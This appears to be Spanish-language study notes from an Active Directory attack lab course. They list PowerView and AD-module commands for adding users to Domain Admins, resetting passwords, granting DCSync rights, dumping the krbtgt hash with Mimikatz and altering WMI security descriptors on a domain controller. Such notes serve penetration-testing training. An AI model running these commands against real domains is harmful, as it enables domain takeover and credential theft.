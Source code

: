 Teniendo control total con nuestri usuario podemos introducir usuarios en el grupo de administradores:
Con Powerview_dev:
..* `Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose`
..* `Remove-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y'`
Con los permisos de ResetPassword:
..* `Set-DomainUserPassword -Identity testda -AccountPassword(ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose`

Con Modulo de ActiveDirectory:
..* `Add-ADGroupMember -Identity 'Domain Admins' -Members testda`
Con los permisos de ResetPassword:
..* `Set-ADAccountPassword -Identity testda -NewPassword(ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose`

$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
New-DomainUser -SamAccountName harmj0y2 -Description 'This is harmj0y' -AccountPassword $UserPassword
-----------
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
New-DomainUser -SamAccountName andy -AccountPassword $UserPassword -Credential $Cred | Add-DomainGroupMember 'Domain Admins' -Credential $Cred

## DCSync
Para saber si nuestro usuario tiene permisos de DCSync:
..* `Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.IdentityReference -match "student46") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}`
Para añadir los permisos de DCSync al usuario:
..* `Add-ObjectAcl -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName student46 -Rights DCSync -Verbose`
..* `Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -GUIDRight DCSync -Verbose`
Para sacar un hash del controlador de dominio:
..* `Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'`

Video 13
---------
 Security Descriptors
 ---------------------
 Security Descriptor Definition Language es el lenguaje de los security descriptors, se usa para las DACL y las SACL. Modificar esto nos permite ejecutar comandos WMI en el CD. Permite ejecutar comandos sin estar en el grupo de administradores.
 Se organiza en:
 ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
 
 ..* `Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc –namespace 'root\cimv2' -Verbose`  Podemos añadir las -Credentials
 ..* `Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc–namespace 'root\cimv2' -Remove -Verbose` Para quitar los permisos del paso anterior
